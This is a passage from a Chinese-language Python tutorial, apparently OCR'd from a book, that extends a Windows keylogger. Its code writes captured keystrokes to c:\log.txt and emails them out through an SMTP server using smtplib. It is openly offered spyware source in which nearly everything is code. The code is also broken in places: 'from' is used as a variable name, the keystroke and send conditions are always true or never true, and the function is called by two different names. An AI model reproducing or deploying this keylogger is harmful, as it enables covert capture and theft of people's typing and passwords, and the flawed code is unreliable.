 我们可以改进脚本以将按键记录到远程服务器或处理特定的按键。

要将记录的按键发送到电子邮件，我们可以使用`smtplib`模块。我们需要导入所需的模块：

```py
import time 
import datetime 
import smtplib 
from email.mime.text import MIMEText

```

然后我们可以定义通过连接到我们的 SMTP 服务器发送电子邮件的方法：

```py
def sendEmail(data,to): 
    try: 
        # Provide from email address 
        from = 'you@yourdomain.com' 
        # Your SMTP username 
        username = 'keylogger' 
        # Your Email password 
        password = 'asd123' 
        # Use MIMEText to create an email 
        mail = MIMEText(data, 'html') 
        mail['Subject']  = "Keylogger Data --" +str(datetime.datetime.now()) 
        mail['From']=from 
        mail['To'] = to 

        # Send the message via your SMTP server 
        server = smtplib.SMTP('smtp.yourdomain.com:587') 
        # Enable TLS if required 
        server.starttls() 
        server.login(username,password) 
        server.sendmail(from, [to], mail.as_string()) 
        server.quit() 
    except: 
        pass

```

现在我们可以将数据和地址传递给这个方法。这将把按键发送到指定的地址。现在我们可以重写`OnKeyboardEvent`方法来发送按键：

```py
def OnKeyboardEvent(event): 
    # Write character only if its not a null or backspace  
    if event.Ascii !=0 or 8: 
        # Open log file and read the current keystrokes in log file 
        f=open('c:\log.txt','r+') 
        buffer=f.read() 
        f.close()  

        if len(buffer)%100==0 and len(buffer)%100!=0: 
            #send last 1000 characters to the email 
            send_email(buffer[-1000:].replace("\n","<br>"),email) 

        # Open the log.txt file to update new keystrokes 
        f=open('c:\log.txt','w') 
        keylogs=chr(event.Ascii) 

        # if the key pressed is ENTER, update with /n  
        if event.Ascii==13: 
            keylogs='\n' 

        #if the key pressed is space, update with space  
        if event.Ascii==32: 
            keylogs='  ' 
```